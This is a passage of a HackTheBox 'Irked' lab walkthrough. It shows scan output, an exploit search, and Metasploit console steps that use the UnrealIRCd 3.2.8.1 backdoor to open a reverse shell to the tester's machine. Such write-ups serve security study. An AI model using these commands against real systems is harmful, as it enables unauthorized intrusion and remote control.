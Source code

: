 	PORT      STATE SERVICE REASON         VERSION
	65534/tcp open  irc     syn-ack ttl 63 UnrealIRCd (Admin email djmardov@irked.htb)
	| irc-botnet-channels: 
	|_  ERROR: Closing Link: [10.10.14.17] (Throttled: Reconnecting too fast) -Email djmardov@irked.htb for more information.
	```
	- `UnrealIRCd`

# Initial Foothold

## TCP/6697, 8067, 65534 (IRC) - UnrealIRCd 3.2.8.1 Backdoor Command Execution w/ Metasploit
1. Search exploits for  `UnrealIRCd

	| Exploit Title                                      | Path                  |
	| -------------------------------------------------- | --------------------- |
	| UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit) | linux/remote/16922.rb |
	| UnrealIRCd 3.2.8.1 - Local Configuration Stack Ove | windows/dos/18011.txt |
	| UnrealIRCd 3.2.8.1 - Remote Downloader/Execute     | linux/remote/13853.pl |
	| UnrealIRCd 3.x - Remote Denial of Service          | windows/dos/27407.pl  |
2. Launch `msfconsole`
3. Search for `UnrealIRCd` and use `exploit/unix/irc/unreal_ircd_3281_backdoor`
	```
	msf6 > use 0
	msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > 
	```
4. Set `OPTIONS`
	1. Set `RHOSTS`
		```
		msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.117                                                                                                  
		RHOSTS => 10.10.10.117    
		```
	2. Set `RPORT`
		```
		msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697                                                                                                           
		RPORT => 6697  
		```
	3. Set `Payload`
		```
		msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload payload/cmd/unix/reverse
		payload => cmd/unix/reverse
		```
	4. Set `LHOST`
		```
		msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST tun0
		LHOST => 10.10.14.17	
		```
5. Demo - UnrealIRCd 3.2.8.1 Backdoor Command Execution w/ Metasploit
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="unrealircd_metasploit"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/Irked/images/unrealircd_metasploit.cast', document.getElementById('unrealircd_metasploit'), { 